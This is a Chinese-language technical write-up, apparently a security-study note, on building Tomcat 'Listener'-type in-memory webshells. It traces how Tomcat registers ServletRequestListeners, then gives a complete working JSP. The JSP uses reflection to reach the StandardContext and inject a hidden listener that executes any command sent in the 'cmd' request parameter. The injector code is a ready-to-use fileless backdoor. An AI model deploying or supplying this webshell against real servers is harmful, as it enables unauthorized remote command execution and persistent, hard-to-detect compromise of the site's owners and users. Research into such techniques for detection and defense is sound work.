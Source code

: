 ```yaml
---
created: '22/02/16'
title: Tomcat-Listener型内存马
tags:
  - java
  - java安全
  - 内存马
---
```

# Tomcat-Listener型内存马

## 参考文章
- http://wjlshare.com/archives/1651

## Tomcat-Listener
Listener（监听器）就是一个实现特定接口的普通java程序，这个程序专门用于监听另一个java对象的方法调用或属性改变，当被监听对象发生上述事件后，监听器某个方法将立即被执行。Listener常用于GUI应用程序中，我们的内存马主要涉及到的是**ServletRequestListener**(由于其在每次请求中都会触发)

## Listener流程分析
首先编写一个Listener并写入web.xml:
```java
package top.longlone.listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class DemoListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("request init");
    }
}

```
```xml
 <listener>
    <listener-class>top.longlone.listener.DemoListener</listener-class>
  </listener>
```

然后我们在这个Listener的class部分和`requestInitialized()`下断点:
![](https://gitee.com/guuest/images/raw/master/img/20220217143012.png)
开启调试触发断点，根据堆栈回溯找到`StandardContext.listenerStart()`方法，可以看到它先调用`findApplicationListeners()`获取Listener的名字，然后实例化:
![](https://gitee.com/guuest/images/raw/master/img/20220217143453.png)
接着他会遍历results中的Listener，根据不同的类型放入不同的数组，我们这里的ServletRequestListener放入eventListeners数组中:
![](https://gitee.com/guuest/images/raw/master/img/20220217143730.png)
接下来的操作是通过调用`getApplicationEventListeners()`获取applicationEventListenersList中的值，然后再设置applicationEventListenersList，可以理解为applicationEventListenersList加上刚刚实例化的eventListeners:
![](https://gitee.com/guuest/images/raw/master/img/20220217144043.png)
![](https://gitee.com/guuest/images/raw/master/img/20220217144123.png)

接下来看第二个断点，根据调用堆栈我们找到了`fireRequestInitEvent()`方法，它会调用`getApplicationEventListeners()`并调用其中所有的`ServletRequestListener.requestInitialized()`:
![](https://gitee.com/guuest/images/raw/master/img/20220217144559.png)


## 内存马实现流程分析
根据上面的分析我们知道Listener来源于tomcat初始化时从web.xml实例化的Listener和applicationEventListenersList中的Listener，前者我们无法控制，但是后者我们可以控制，只需要往applicationEventListenersList中加入我们的恶意Listener即可。

实际上StandardContext存在`addApplicationEventListener()`方法可以直接给我们调用，往applicationEventListenersList中加入Listener。

所以我们的Listener内存马实现步骤:
- 继承并编写一个恶意Listener
- 获取StandardContext
- 调用`StandardContext.addApplicationEventListener()`添加恶意Listener

以下是代码的具体实现:
```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>

<%
    class S implements ServletRequestListener{
        @Override
        public void requestDestroyed(ServletRequestEvent servletServletRequestListenerRequestEvent) {

        }
        @Override
        public void requestInitialized(ServletRequestEvent servletRequestEvent) {
            String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {}
            }
        }
    }
%>

<%
    ServletContext servletContext =  request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    S servletRequestListener = new S();
    standardContext.addApplicationEventListener(servletRequestListener);
    out.println("inject success");
%>
```


